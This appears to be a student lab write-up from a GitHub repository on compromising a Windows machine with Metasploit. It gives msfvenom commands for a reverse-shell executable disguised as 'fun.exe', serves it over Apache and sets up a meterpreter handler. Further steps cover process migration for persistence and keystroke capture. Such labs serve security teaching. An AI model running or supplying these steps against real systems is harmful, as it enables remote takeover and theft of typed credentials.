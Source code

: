 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![s](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/d9b9e488-6580-4969-a3d2-5061443c0ed1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![1](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/12b58fda-5cec-4e47-872b-b838ef920d46)




copy the fun.exe into the apache /var/www/html folder
![2](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/37d7e507-5d47-4ddb-ba93-586f6d73a51b)


Start apache server
sudo systemctl apache2 start

![3](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/0d0224f9-d80c-42b9-a3ab-09b48da66a27)



Check the status of apache2
![4](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/77516604-9c4f-4317-a188-c41de4625542)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![6](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/938f78c9-0e8a-42ef-847c-a7cee7393beb)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/fee0700e-bafd-4e76-af72-f5ac23a5d6ba)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![ss](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/b2d36ca1-64a2-4863-a648-4ef4a8727dd9)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![10](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/785ef849-9095-4065-b38a-54b544a0c440)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
